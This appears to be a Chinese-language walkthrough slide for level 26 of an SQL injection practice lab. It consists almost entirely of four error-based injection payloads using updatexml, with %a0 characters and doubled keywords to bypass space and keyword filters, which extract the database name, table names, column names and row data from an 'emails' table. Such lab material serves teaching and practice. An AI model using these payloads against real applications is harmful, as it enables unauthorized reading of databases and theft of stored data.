

# 第二十六关

判断库名： '|| updatexml(1,concat(0x7e,(SELECT%a0database()),0x7e),1)|| '1'='1

判断表名：'|| updatexml(1,concat(0x7e,(select (group_concat(table_name)) from (infoorrmation_schema.tables) where (table_schema)='security'),0x7e),1)|| '1'='1

判断列名：'|| %a0updatexml(1,concat(0x7e,(select%a0column_name%a0from%a0 infoorrmation_schema.columns%a0where%a0table_schema='security'%a0%26%26 %a0table_name='emails'%a0 limit %a00,1),0x7e),1)|| '1'='1

判断数据：'and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)|| '1'='1